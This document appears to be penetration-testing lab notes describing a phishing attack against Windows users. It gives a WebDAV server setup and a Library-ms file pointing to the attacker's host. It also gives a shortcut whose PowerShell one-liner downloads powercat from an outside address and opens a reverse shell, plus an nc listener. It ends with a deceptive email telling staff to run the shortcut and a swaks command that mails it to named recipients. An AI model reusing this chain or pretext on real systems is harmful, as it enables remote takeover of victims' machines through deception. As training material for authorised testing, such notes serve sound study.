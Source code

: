 
`We will need to create these files on a Windows Machine.`

When we exhaust our attack surface and we have a means to - we can attempt to phish the users of interest in an attempt to gain access to another machine.

First on our local kali we will set up a WebDAV server:
```
mkdir /path/to/root/webdav/directory
```

```
wsgidav --host 0.0.0.0 --port=80 --auth=anonymous --root /path/to/root/webdav/directory
```

`path to webdav directory can be any directory we want - create one for the purpose`

on the windows machine:
```
right click "this PC"
click "add network location"
input our kali address as teh internet or netword address
```

Then we need to prepare our Windows Library and shortcut files.

config.Library-ms:
```
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>

<url>http:/<OUR_KALI_IP></url>

</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```

then transfer this saved file to our kali machine using the WebDAV server we setup.
```
mv .\file \\kali_ip\DavWWWRoot\
```

create a shortcut link file:
```
right click desktop
create shortcut
for the location place a reverse shell script:

powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.119.5:8000/powercat.ps1'); powercat -c 192.168.119.5 -p 4444 -e powershell"
```

and serve powercat with python webserver:
```
cp /usr/share/powershell-empire/empire/server/data/module_source/management/powercat.ps1 .

python3 -m http.server 8000
```

then run a listener:
```
nc -nvlp 4444
```


create an email to send in a text file (body.txt):
```
Hey!
I checked WEBSRV1 and discovered that the previously used staging script still exists in the Git logs. I'll remove it for security reasons.

On an unrelated note, please install the new security features on your workstation. For this, download the attached file, double-click on it, and execute the configuration shortcut within. Thanks!

John
```

now we can use `swaks` to send an email using the discovered mail server:
```
sudo swaks -t daniela@beyond.com -t marcus@beyond.com --from john@beyond.com --attach @config.Library-ms --server 192.168.50.242 --body @body.txt --header "Subject: Staging Script" --suppress-data -ap
```

we will then need to enter the username and password of the account were sending it from.



